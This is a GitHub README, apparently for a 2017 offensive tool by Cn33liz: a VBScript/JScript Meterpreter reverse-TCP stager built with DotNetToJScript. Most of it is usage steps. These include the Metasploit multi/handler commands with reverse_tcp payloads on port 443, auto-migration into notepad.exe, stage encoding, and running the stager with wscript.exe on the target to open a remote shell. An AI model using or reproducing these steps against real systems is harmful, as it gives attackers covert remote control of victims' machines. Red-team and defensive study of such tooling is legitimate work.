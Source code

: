 ```
____   ______________  _________   _____          __                
\   \ /   /\______   \/   _____/  /     \   _____/  |_  ___________ 
 \   Y   /  |    |  _/\_____  \  /  \ /  \_/ __ \   __\/ __ \_  __ \
  \     /   |    |   \/        \/    Y    \  ___/|  | \  ___/|  | \/
   \___/    |______  /_______  /\____|__  /\___  >__|  \___  >__|   
                   \/        \/         \/     \/          \/       
```
### VBS Reversed TCP Meterpreter Stager - by Cn33liz 2017
CSharp Meterpreter Stager build by Cn33liz and embedded within VBScript using DotNetToJScript from James Forshaw
https://github.com/tyranid/DotNetToJScript

This Stager should run on x86 as well as x64

```
Usage:
Change RHOST and RPORT settings to suit your needs.

Start Msfconsole:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp <- When run from x64 version of wscript.exe
set PAYLOAD windows/meterpreter/reverse_tcp <- When run from x86 version of wscript.exe
set LHOST 0.0.0.0
set LPORT 443
set AutoRunScript post/windows/manage/migrate NAME=notepad.exe
set EnableUnicodeEncoding true
set EnableStageEncoding true
set ExitOnSession false
exploit -j

Then run: wscript.exe VBSMeter.js on Target
```

